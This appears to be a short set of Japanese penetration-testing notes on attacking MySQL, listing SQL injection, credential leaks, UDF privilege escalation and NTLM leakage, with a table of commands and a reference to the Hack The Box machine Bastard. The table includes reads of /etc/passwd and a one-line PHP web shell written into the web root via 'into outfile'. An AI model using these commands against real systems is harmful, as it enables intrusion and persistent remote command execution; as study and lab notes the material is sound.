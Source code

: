 # Description
----

1. SQLインジェクション
1. データベースへアクセスするためのクレデンシャル情報の漏洩
1. データベース内のクレデンシャル情報の漏洩
1. ファイル書き込みを利用したバックドアの生成
1. ファイル読み込みを利用した情報漏洩
1. ユーザ定義関数を利用した権限昇格
1. ファイル書き込みと読み込みを利用したsmbアクセスによるNet-NTLM情報の漏洩

接続先データベースを指定できる場合、クライアント側に接続

クライアントがアタッカーかホストか、サーバがアタッカーかホストかで分類できるかも

SQL Injectionのコメントアウトからの推定



| Description                                  | Command                                                      |
| -------------------------------------------- | ------------------------------------------------------------ |
| MySQLクライアント：DBにファイルを読み込み    | `load data local infile '/etc/passwd' into table dummy`      |
| MySQLクライアント：DBからファイルを書き出し  | `select '<?php echo system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php'` |
| MySQLサーバ：DBにファイルを読み込み          | `select load_file('/etc/passwd')`                            |
| MySQLサーバ：DBからファイルを書き出し        | なし                                                         |
| 関数定義（`$MYSQL_HOME\lib\plugin\udf.dll`） | `create function sys_exec returns int soname 'udf.dll'`      |

HTB: Bastard

```console
a
```

